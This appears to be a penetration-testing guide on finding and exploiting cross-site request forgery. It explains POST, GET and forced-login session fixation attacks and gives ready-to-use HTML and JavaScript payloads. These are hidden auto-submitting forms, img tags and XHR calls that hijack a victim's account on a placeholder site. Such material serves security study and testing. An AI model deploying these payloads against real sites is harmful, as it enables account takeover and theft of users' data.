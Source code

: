 # Finding and exploiting CSRF vulnerabilities

## Finding CSRF vulnerabilities

1. **Identify state-changing actions** within the web application that alter user data or perform important operations, such as modifying personal details, processing purchases, transferring funds, or executing any API requests that update server-side resources. These actions are potential targets for CSRF attacks.
1. **Check for unprotected forms** within the application that submit data without a CSRF token or the `SameSite` cookie attribute, as this could expose them to CSRF attacks. CSRF tokens are server-generated unique values included in form submissions to prevent unauthorized request execution. To detect these weaknesses, use a web proxy tool like Burp Suite or OWASP ZAP to **intercept and analyze HTTP requests** examining request headers, cookies, and parameters.
1. **Test to confirm the CSRF vulnerability** by crafting a malicious request within an HTML page, utilizing a `form` or `image` tag to send an unauthorized request to the application:

    ```javascript
    <form action="https://vulnerable.tbl/email/update" method="POST">
        <input type="hidden" name="email" value="attacker@attacker.tbl">
        <input type="submit" value="Submit">
    </form>
    ```

    Visiting the crafted malicious page while authenticated in the target application will trigger the CSRF attack.

1. Additionally, as part of in-depth research, leverage a vulnerability scanner for automatic CSRF detection, inspect source code if accessible, perform SAST to uncover security risks, and evaluate the effectiveness of CSRF protections by attempting bypass techniques.

## Exploiting CSRF via state-changing requests (usually POST)

* CSRF attacks using the POST method are among the most common forms of CSRF. These attacks occur when a web application fails to implement security mechanisms (i.e, implementing CSRF tokens or using the `SameSite` attribute on cookies) to protect against unauthorized requests.
* An attacker can exploit this by crafting malicious HTML content that automatically triggers a POST request as soon as the user's browser renders the page.
  * Since browsers allow automatic form submission, attackers can initiate POST requests without user interaction, as long as the victim is logged into the targeted website.
* Unlike GET-based CSRF, POST-based CSRF usually allows attackers to target endpoints that require more structured input, which are typically used for state-changing operations.
* As example, consider a scenario where a web application has a vulnerable `/email/update` endpoint that permits users to update their email address via a POST request, requiring only the `email` parameter. An attacker could craft the following HTML page to exploit this weakness:

    ```html
    <html>
        <body>
            <form action="https://vulnerable.tbl/email/update" method="POST">
                <input type="hidden" name="email" value="attacker@attacker.tbl" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
    ```

## Exploiting CSRF via GET requests

* CSRF vulnerabilities may also be exploited via the GET HTTP method if endpoints permit state-changing operations through GET requests without proper protections.
* GET requests are typically intended for retrieving data, but if a web application uses GET for actions that modify state (e.g., changing user information or making updates), it also creates a significant security risk.
* In the following example, when the user clicks on the following link, its email will be changed to `attacker@attacker.tbl`, making the attacker gain control over the account:

    ```http
    https://vulnerable.tbl/email/update?email=attacker@attacker.tbl
    ```

  * Clicking the link while authenticated to `vulnerable.tbl` causes the browser to automatically send a GET request to the exposed endpoint.
* CSRF can also be exploited via the GET method by embedding the malicious link in an HTML element like an `<img>` tag. When the victim accesses a malicious website, the browser automatically processes the HTML and issues the GET request to the vulnerable endpoint without requiring user interaction:

    ```html
    <img src="https://vulnerable.tbl/email/update?email=attacker@attacker.tbl">
    ```

  * The request sent, containing the victim's authenticated session cookies, would trigger the state-changing operation, altering the user's email address to `attacker@attacker.tbl` without the victim's awareness or approval.
* As an example, after updating the victim’s email, the attacker could reset the password through the new email, effectively gaining complete control of the account.

## Exploiting CSRF via session fixation

* `Session fixation` is an attack where an attacker forces a user to use a predetermined session, effectively hijacking the user's session.
* In certain scenarios, a CSRF attack can be used to log a user into an account controlled by the attacker, overwriting any existing session the user may have had. This results in the user unknowingly operating under the attacker's session.
* Unlike traditional CSRF attacks that focus on unauthorized state changes, this variant manipulates user authentication, potentially leading to account hijacking, data exposure, or session-based tracking.
* The attack follows these steps:
  1. The attacker pre-creates an account (e.g., `attacker@attacker.tbl`) on the targeted vulnerable website.
  1. The attacker constructs a malicious webpage designed to force victims to log in to this account:

      ```html
      <form action="https://vulnerable.tbl/login" method="POST">
          <input type="hidden" name="email" value="attacker@attacker.tbl" />
          <input type="hidden" name="password" value="password123" />
      </form>
      <script>
          document.forms[0].submit();
      </script>
      ```

  1. When a user visits this page, their browser automatically submits the form, initiating a login request. If the server responds with:

      ```http
      Set-Cookie: session=attacker_account_session_id; Secure; HttpOnly; Path=/
      ```

      The browser overwrites the victim's existing session cookie with the attacker account's session.

  1. Since the victim remains unaware of this manipulation, they may continue using the trusted application, believing they are still logged into their own account. However, all actions they perform are tied to the attacker's session.
* This technique is particularly dangerous in applications where users store personal information, payment details, or sensitive messages, as any data entered while under the attacker's session will be accessible to them.
* Attackers can also leverage this approach to track user interactions and harvest sensitive data, initiate fraudulent transactions using stored payment details, exploit account linking mechanisms to permanently associate the victim's actions with the attacker's controlled session.
  > :older_man: However, there is a shift in behavior. Historically, the absence of the `SameSite` attribute on cookies was treated as `SameSite=None` by most browsers. Recognizing the security risks of this approach, modern browsers now default to `SameSite=Lax`, which would prevent this attack. Although this change enhances security, depending on browser defaults is not considered a reliable security practice.

## Common CSRF payloads

### HTML4 and HTML5 not requiring user interaction

|HTML tags|
|:--:|
|```<iframe src="URL" />```,<br/> ```<script src="URL" />```,<br/> ```<input type="image" src="URL" alt="" />```,<br/> ```<embed src="URL" />```,<br/> ```<audio src="URL" />```,<br/> ```<video src="URL" />```,<br/> ```<source src="URL" />```,<br/> ```<video poster="URL" />```,<br/> ```<link rel="stylesheet" href="URL" />```,<br/> ```<object data="URL" />```,<br/> ```<body background="URL" />```,<br/> ```<div style="background:url("URL")" />```,<br/> ```<style>body { background:url("URL") } </style> />```|

### HTML and JavaScript not requiring user interaction

```html
<form action="https://vulnerable.tbl/email/update" method="POST" id="CSRF" style="display: none;">
  <input name="email" value="attacker@attacker.tbl"/>
</form>
<script>document.getElementById("CSRF").submit()</script>
```

### JavaScript not requiring user interaction

  ```javascript
  <script>
    const url = "https://vulnerable.tbl/email/update";
    const params = "email=attacker@attacker.tbl";
    const CSRF = new XMLHttpRequest();
    CSRF.open("POST", url, false);
    CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    CSRF.send(params);
  </script>
  ```

  ```javascript
  $.ajax({
    type: "POST",
    url: "https://vulnerable.tbl/email/update",
    data: "email=attacker@attacker.tbl",
  });
  ```
